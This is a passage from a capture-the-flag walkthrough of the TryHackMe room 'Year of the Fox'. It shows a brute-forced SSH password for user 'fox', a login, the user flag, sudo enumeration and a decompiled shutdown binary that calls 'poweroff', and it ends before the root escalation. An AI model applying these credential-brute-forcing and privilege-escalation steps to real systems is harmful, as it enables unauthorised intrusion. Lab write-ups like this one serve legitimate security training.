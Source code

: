 fox's ssh password: `ashlee`

* Note: Again, the passwords are randomly generated at boot, so you need to brute-force the password, if the machine is restarted.

## User flag

Now we can connect to the machine via ssh on port 2222. The user flag is located in fox's home directory:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Fox]
└─$ ssh fox@$IP -p2222
fox@10.10.64.137's password: 


	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\


                                                                  
fox@year-of-the-fox:~$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox),114(sambashare)
fox@year-of-the-fox:~$ ls
samba  user-flag.txt
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}
~~~

User flag: `THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}`

## Going root

Now we need to obtain the root flag. I ran `sudo -l` to check my sudo permissions and and we can run `/usr/sbin/shutdown` as root with no password.

~~~
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
~~~

I downlaoded the binary on my machine and checked it using a disassembler and take a look at it:

~~~c
void main() {
    system("poweroff");
    return;
}
~~~
